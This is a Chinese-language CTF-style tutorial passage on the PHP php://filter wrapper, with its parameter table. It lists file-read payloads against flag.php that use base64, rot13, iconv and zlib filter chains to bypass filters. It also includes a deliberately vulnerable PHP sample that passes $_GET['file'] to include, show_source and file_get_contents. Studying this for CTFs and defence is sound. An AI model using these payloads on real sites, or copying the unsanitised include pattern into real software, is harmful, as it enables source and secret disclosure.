 ## php://filter伪协议

环境：

- allow_url_fopen ：off/on
- allow_url_include：off/on

`php://filter` 是一种元封装器， 设计用于数据流打开时的筛选过滤应用。 这对于一体式（all-in-one）的文件函数非常有用，类似 `readfile()`、 `file()` 和 `file_get_contents()`， 在数据流内容读取之前没有机会应用其他过滤器。

说人话就是中间件，在输入输出时操作输入输出流

php://filter 目标使用以下的参数作为它路径的一部分。 复合过滤链能够在一个路径上指定。详细使用这些参数可以参考具体范例。

| 名称                        | 描述                                                         |
| :-------------------------- | :----------------------------------------------------------- |
| `resource=<要过滤的数据流>` | 这个参数是必须的。它指定了你要筛选过滤的数据流。（文件名）   |
| `read=<读链的筛选列表>`     | 该参数可选。可以设定一个或多个过滤器名称，以管道符（`|`）分隔。 |
| `write=<写链的筛选列表>`    | 该参数可选。可以设定一个或多个过滤器名称，以管道符（`|`）分隔。 |
| `<；两个链的筛选列表>`      | 任何没有以 `read=` 或 `write=` 作前缀 的筛选器列表会视情况应用于读或写链。 |

常用payload：

```PHP
php://filter/resource=flag.php
php://filter/read=convert.base64-encode/resource=flag.php
php://filter/convert.base64-encode/resource=flag.php
php://filter/convert.quoted-printable-encode/resource=flag.php
php://filter/read=string.rot13/resource=flag.php
php://filter/convert.string.strip_tags/resource=flag.php
// 多个过滤器可以使用管道符连接
php://filter/read=string.rot13|convert.base64-encode/resource=flag.php
// 使用convert.iconv.*编码转换绕过
php://filter/convert.iconv.UCS-4LE.UCS-4BE/resource=flag.php
php://filter/convert.iconv.UCS-2LE.UCS-2BE/resource=flag.php
// zlib://伪协议读取文件, 但是其他两个压缩伪协议读取不了
compress.zlib://flag.php
// zlib先解压在压缩读取文件
php://filter/zlib.deflate|zlib.inflate/resource=flag.php
```

### 文件读取场景

如下读取文件的场景下，如果存在**is_file()**函数判断文件并过滤，都可以使用伪协议读取将文件读取出来：

```php
<?php
	highlight_file(__FILE__);
	show_source($_GET['file']);
	// highlight_file($_GET['file']);
	// file_get_contents($_GET['file']);
	// include($_GET['file']);
	// include_once($_GET['file']);
	// require($_GET['file']);
	// require_once($_GET['file']);
	// $handle = fopen($_GET['file'], 'r');while (($line = fgets($handle)) !== false) {echo $line;}if(!fclose($handle)){die('Failed to close file');}
	// $contents = file_get_contents($_GET['file']);echo $contents;
	// print_r(file($_GET['file']));
?>
```
